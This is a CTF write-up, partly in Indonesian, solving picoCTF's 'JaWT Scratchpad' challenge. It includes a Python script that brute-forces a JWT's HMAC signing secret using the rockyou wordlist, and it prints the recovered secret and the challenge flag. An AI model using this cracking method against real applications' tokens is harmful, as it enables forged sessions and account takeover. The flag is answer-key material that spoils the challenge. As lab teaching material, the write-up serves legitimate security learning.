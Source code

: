 <h1>JaWT Scratchpad</h1>
<h3>Description</h3>
<p>Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/58210/ or http://jupiter.challenges.picoctf.org:58210</p>
<h3>Solution</h3>

<label>Input "john" dan cek header response</label>
<pre>
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
</pre>

```python3
import base64
import hmac
import jwt
import hashlib

def bruteforce_secret():
    jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y"
    header = jwt.split(".")[0]
    payload = jwt.split(".")[1]
    message = f"{header}.{payload}".encode()
    file = open("/usr/share/wordlists/rockyou.txt","r",encoding='latin')
    for i in file:
        secret = i.strip("\n")
        signature = hmac.new(secret.encode(),message,hashlib.sha256).digest()
        signature_base64 = base64.urlsafe_b64encode(signature).decode().rstrip("=")
        result = f"{header}.{payload}.{signature_base64}"
        if jwt == result:
            print("Secret Found :",secret)
bruteforce_secret()
```

<p>Secret : <b>ilovepico</b></p>
<h3>Flag</h3>
<pre>
picoCTF{jawt_was_just_what_you_thought_44c752f5}
</pre>

